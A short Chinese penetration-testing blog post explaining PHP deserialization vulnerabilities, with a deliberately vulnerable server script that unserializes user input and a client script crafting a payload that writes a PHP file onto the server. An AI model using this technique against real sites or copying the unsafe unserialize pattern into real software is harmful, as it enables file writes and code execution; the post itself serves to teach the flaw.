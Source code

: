 +++
date = "2016-07-25T23:32:52+08:00"
description = ""
draft = false
tags = ["反序列化"]
title = "PHP反序列化漏洞"
topics = ["Pentest"]

+++

## 这里是正文

### 0x00 关于反序列化漏洞
> 序列化：使用函数serialize()可将实例序列化为字符串  
反序列化：使用函数unserialize()可将序列化的字符串还原  
若服务端有如下代码：
```php
<?php
    class foo{
        public $file = "test.txt";
        public $data = "123456";

        function __destruct(){
            file_put_contents($this->file,$this->data);
        }
    }

    $d = $_REQUEST['str'];
    var_dump($d);
    echo "<br />";
    $tc = unserialize(base64_decode($d));
    var_dump($tc);
?>
```
客户端可构造如下代码生成序列化后的字符串提交给服务端，  
服务端就会生成文件xx.php，内容为<b><?php phpinfo(); ?></b>：
```php
<?php
    class foo {
        public $ﬁle = "test.txt";
        public $data = "123456";
        
        function __destruct() {
            ﬁle_put_contents($this->ﬁle, $this->data);
        }
    }

    $f = new foo();
    $f->ﬁle = "xx.php";
    $f->data = "<?php phpinfo(); ?>";
    echo base64_encode(serialize($f));
?>
```
